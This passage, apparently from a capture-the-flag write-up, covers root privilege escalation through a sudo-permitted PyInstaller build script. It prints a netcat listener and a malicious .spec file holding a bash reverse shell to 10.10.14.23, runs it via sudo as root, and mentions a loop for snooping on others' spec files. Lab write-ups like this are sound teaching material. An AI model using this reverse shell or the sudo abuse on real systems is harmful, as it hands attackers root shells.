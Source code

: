 ```bash
    /usr/bin/mv ./dist ./build /opt/shared
  else
    echo "Invalid file format"
    exit 1;
  fi
elif [[ $action == 'make' ]]; then
  if [[ $ext == 'py' ]] ; then
    /usr/bin/rm -r /opt/shared/build /opt/shared/dist 2>/dev/null
    /root/.local/bin/pyinstaller -F --name "qreader" $name --specpath /tmp
   /usr/bin/mv ./dist ./build /opt/shared
  else
    echo "Invalid file format"
    exit 1;
  fi
elif [[ $action == 'cleanup' ]]; then
  /usr/bin/rm -r ./build ./dist 2>/dev/null
  /usr/bin/rm -r /opt/shared/build /opt/shared/dist 2>/dev/null
  /usr/bin/rm /tmp/qreader* 2>/dev/null
else
  /usr/bin/echo 'Invalid action'
  exit 1;
fi
```

Zoom in:
- `/home/svc/.local/bin/pyinstaller $name`
- `/usr/bin/rm /tmp/qreader* 2>/dev/null`

How the pwn process will be:
- Pass `build` as 1st argument, which will be stored to variable `$action`
- Pass `/tmp/qreader.spec` as 2nd argument, which will be stored to variable `$name`
- By reading pyinstaller's spec file docs and examples, we know that spec file can include python scripts
- Put reverse shell into spec file : `/tmp/qreader.spec`

```bash
┌──(root㉿kali)-[~/socket/DIE-engine/die_script]
└─# rlwrap nc -lvnp 1111
listening on [any] 1111 ...
```

```bash
tkeller@socket:~$ cat > /tmp/qreader.spec << EOF
import os; os.system("bash -c 'bash -i >& /dev/tcp/10.10.14.23/1111 0>&1'")
EOF

tkeller@socket:~$ sudo -u root /usr/local/sbin/build-installer.sh build /tmp/qreader.spec
184 INFO: PyInstaller: 5.6.2
184 INFO: Python: 3.10.6
188 INFO: Platform: Linux-5.15.0-67-generic-x86_64-with-glibc2.35
190 INFO: UPX is not available.
```

> PS: Someone could use `while true; do cat /tmp/qreader.spec 2>/dev/null; done` to catch the content
